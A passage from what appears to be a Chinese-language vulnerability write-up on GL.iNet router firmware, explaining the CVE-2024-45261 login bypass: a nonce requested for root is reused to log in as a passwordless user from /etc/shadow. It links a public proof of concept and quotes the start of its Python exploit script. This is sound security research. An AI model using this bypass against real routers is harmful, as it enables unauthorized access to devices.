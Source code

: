 但是真的安全了吗，其实并没有。再往上翻一下 `/etc/shadow` 文件的内容，可以知道除了 root 还有 ftp、daemon、network 等其他用户的密码信息，而且匹配出来的哈希要么是 * 要么是 x，所以 `rpc - login` 请求是很容易搞定的，登录 `/etc/shadwo` 文件中的其他用户名即可。但是还要看下 `rpc - challenge` 请求流程，因为有先通过 get_crypt_info 读用户在 `/etc/shadwo` 文件中的哈希类型和盐，如果是 root 外的用户，获取到的 alg 和 salt 就是 nil，进而校验了 alg 值会请求失败，无法产生随机数 nonce 并返回。

![](/assets/images/2024-11-04/42.png) 

可是问题恰恰出现在 `rpc - login` 请求中使用 nonce 时候，并没有检查是哪个用户生成的 nonce，所以我们可以进行 `rpc - challenge` 请求时候，设置用户名为 root 来获取到 nonce，再进行 `rpc - login` 请求时候，设置别的用户来绕过校验，这就是 CVE-2024-45261，[官网上有具体的介绍](https://github.com/gl-inet/CVE-issues/blob/main/4.0.0/Bypassing Login Mechanism with Passwordless User Login.md)，github 上也有 [poc 脚本](https://github.com/aggressor0/GL.iNet-Exploits/blob/main/CVE-2024-45261.py)。

![](/assets/images/2024-11-04/43.png) 

```python
#CVE-2024-45261.py
import requests
import hashlib

requests.packages.urllib3.disable_warnings()
s = requests.Session()
s.verify = False
s.keep_alive = True
s.headers.update({'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'})

url = "http://192.168.122.130/rpc"
j = {"jsonrpc":"2.0","id":1,"method":"challenge","params":{"username":"root"}}
r = s.post(url, json=j)
```